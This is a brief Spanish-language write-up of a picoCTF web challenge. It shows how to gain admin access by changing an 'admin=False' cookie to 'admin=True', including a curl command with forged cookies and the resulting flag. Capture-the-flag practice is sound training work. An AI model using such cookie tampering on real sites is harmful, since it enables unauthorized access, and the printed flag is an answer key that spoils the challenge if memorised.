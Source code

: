 #notas_hacking #web
# Reto
## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
## Solución
Editar cookies una vez haciendo `login` con cualquier usuario menos Joe con la extensión `cookie-editor`. cambiar `admin=False` a `admin=True` o con la terminal hacer:
```bash
┌──(kali㉿kali)-[~/retos]
└─$ curl -X GET https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=sdmin; password=admin; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0    146      0  0:00:08  0:00:08 --:--:--   333
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>}
```
## Notas
`curl` - navegar por un pagina
## Referencias
